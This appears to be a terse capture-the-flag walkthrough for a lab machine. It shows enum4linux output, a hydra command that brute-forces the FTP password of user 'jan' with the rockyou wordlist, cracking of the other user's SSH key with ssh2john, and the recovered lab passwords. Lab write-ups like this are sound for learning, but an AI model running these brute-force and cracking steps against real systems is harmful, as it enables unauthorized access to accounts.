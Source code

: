 
 ==============================================
|    Getting printer info for 10.10.141.122    |
 ==============================================
No printers returned.


enum4linux complete on Thu Apr 30 02:56:32 2020
`
> kay and jan are the users...
> because we know the username now we can bruteforce the password using hydra
> [[ hydra -t 1 -l jan -P /usr/share/wordlists/rockyou.txt -vV ftp://10.10.141.122
 ]]
> password is armando for jan...
> we found rsa for kay and crack it using ssh2john.py
> then we used that cracked hash and crack it to find the plain Password
> Password is : beeswax
> after that we logged in and now we can cat the password....
> DOWN FOR DEVELOPMENT HAHAHAHAHAHA







===================================================================
Useful resource about SMB : https://null-byte.wonderhowto.com/how-to/enumerate-smb-with-enum4linux-smbclient-0198049/
SMB ports are 139 and 445
===================================================================
